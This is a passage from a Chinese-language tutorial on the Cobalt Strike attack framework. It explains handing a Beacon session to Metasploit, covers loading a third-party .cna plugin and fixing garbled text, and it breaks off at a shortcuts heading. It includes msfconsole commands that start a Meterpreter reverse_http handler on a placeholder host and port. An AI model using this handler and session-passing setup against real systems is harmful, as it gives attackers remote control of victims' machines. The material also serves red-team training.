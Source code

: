 另一种方式是 Cobalt Strike Server 服务器上安装 MSF 直接 Spawn。

MSF 开启监听。

```plaintext
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set lhost 1.1.1.1
msf6 exploit(multi/handler) > set lport 1111
msf6 exploit(multi/handler) > run

[*] Stared HTTP reverse handler on http://1.1.1.1:1111
```

Cobalt Strike Foreign HTTP(S) 监听器则设置服务器公网地址和 MSF 中监听的 Port。将 Beacon Spawn 到此监听器即可。

### 插件

可以对 Cobalt Strike 利用功能进行扩展。

这里使用 [https://github.com/pandasec888/taowu-cobalt-strike](https://github.com/pandasec888/taowu-cobalt-strike) 做实例。

在菜单 Cobalt Strike -> Script Manager 打开 Scripts 标签 Load .cna 文件即可加载。

![插件加载成功.png](assets/1698895384-510d919eae528990ae68cbe428a93f26.png)

如果插件加载完包含中文乱码，可以在启动时加上 -Dfile.encoding=utf-8。

### 快捷键

控制台
